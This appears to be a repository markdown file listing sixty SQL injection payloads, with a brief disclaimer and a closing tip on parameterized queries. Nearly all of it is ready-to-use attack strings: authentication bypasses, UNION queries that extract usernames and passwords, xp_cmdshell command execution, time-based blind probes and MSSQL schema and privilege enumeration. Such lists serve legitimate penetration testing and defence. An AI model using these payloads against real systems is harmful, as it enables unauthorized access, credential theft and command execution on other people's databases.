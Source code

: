 # SQL Injection Payloads for Testing

This document contains a list of SQL Injection payloads designed for testing and securing your application against SQL Injection vulnerabilities. Ensure you have proper authorization before using these payloads on any application.

## Disclaimer

These payloads are provided for educational and testing purposes only. Misuse of this information can result in criminal penalties. Use these payloads responsibly and ethically.

## Payloads

1. `' OR '1'='1`
2. `' OR '1'='1' --`
3. `' OR 1=1--`
4. `1' OR '1'='1' /*`
5. `') OR ('1'='1--`
6. `' OR 1=1#`
7. `' OR 1=1/*`
8. `') OR '1'='1'--`
9. `'; EXEC xp_cmdshell('dir')--`
10. `' UNION SELECT 1, @@version--`
11. `' UNION SELECT null, username || '~' || password FROM users--`
12. `1'1`
13. `' AND '1'='1' --`
14. `' AND '1'='2`
15. `admin' --`
16. `admin' #`
17. `admin'/*`
18. `' OR EXISTS(SELECT * FROM users WHERE username='admin' AND password LIKE '%')--`
19. `' UNION SELECT 1, table_name FROM information_schema.tables--`
20. `' UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = 'users'--`
21. `'||pg_sleep(10)--`
22. `'; WAITFOR DELAY '00:00:10'--`
23. `' AND ASCII(SUBSTRING((SELECT @@version), 1, 1)) > 52--`
24. `' AND (SELECT COUNT(*) FROM users) > 5--`
25. `' AND (SELECT user) = 'dbo'--`
26. `' AND 1=(SELECT COUNT(*) FROM tablenames);--`
27. `' AND 1 IN (SELECT MIN(name) FROM sysobjects WHERE xtype = 'U' AND name > '.')--`
28. `' AND 1=CAST('test' AS INT)--`
29. `' AND 1=CONVERT(INT, (SELECT @@version))--`
30. `' AND 1=(SELECT IS_SRVROLEMEMBER('sysadmin'))--`
31. `' AND (SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'tablename') AND colid = 1) = 'columnname'--`
32. `' AND 1=DB_ID('master')--`
33. `' AND 1=(SELECT TOP 1 1 FROM [table] WHERE [column] LIKE '%')--`
34. `' AND 1=(SELECT COUNT(*) FROM master..sysdatabases WHERE dbid > 4)--`
35. `' AND (SELECT name FROM master..sysdatabases WHERE dbid = (SELECT MIN(dbid) FROM master..sysdatabases WHERE dbid > 4)) = 'tempdb'--`
36. `' AND 1=(SELECT IS_MEMBER('db_owner'))--`
37. `' AND 1=(SELECT IS_SRVROLEMEMBER('public'))--`
38. `' AND 1=(SELECT COUNT(*) FROM sysusers)--`
39. `' AND 1=(SELECT COUNT(*) FROM sysobjects WHERE xtype = 'U')--`
40. `' AND 1=(SELECT COUNT(*) FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE xtype = 'U' AND name = 'tablename'))--`
41. `' AND 1=(SELECT COUNT(*) FROM syscomments)--`
42. `' AND 1=(SELECT COUNT(*) FROM sysdepends)--`
43. `' AND 1=(SELECT COUNT(*) FROM sysfiles)--`
44. `' AND 1=(SELECT COUNT(*) FROM sysfiles1)--`
45. `' AND 1=(SELECT COUNT(*) FROM sysforeignkeys)--`
46. `' AND 1=(SELECT COUNT(*) FROM sysfulltextcatalogs)--`
47. `' AND 1=(SELECT COUNT(*) FROM sysindexes)--`
48. `' AND 1=(SELECT COUNT(*) FROM sysindexkeys)--`
49. `' AND 1=(SELECT COUNT(*) FROM sysmembers)--`
50. `' AND 1=(SELECT COUNT(*) FROM sysobjects)--`
51. `' AND 1=(SELECT COUNT(*) FROM syspermissions)--`
52. `' AND 1=(SELECT COUNT(*) FROM sysprotects)--`
53. `' AND 1=(SELECT COUNT(*) FROM sysreferences)--`
54. `' AND 1=(SELECT COUNT(*) FROM systypes)--`
55. `' AND 1=(SELECT COUNT(*) FROM sysusers)--`
56. `' AND 1=(SELECT COUNT(*) FROM sysxlogins)--`
57. `' AND 1=(SELECT COUNT(*) FROM sysxtypes)--`
58. `' AND 1=(SELECT COUNT(*) FROM syslanguages)--`
59. `' AND 1=(SELECT COUNT(*) FROM syslockinfo)--`
60. `' AND 1=(SELECT COUNT(*) FROM sysconstraints)--`

## Conclusion

Always review and sanitize user inputs in your applications to prevent SQL Injection attacks. Use parameterized queries, prepared statements, or ORM frameworks to handle data safely.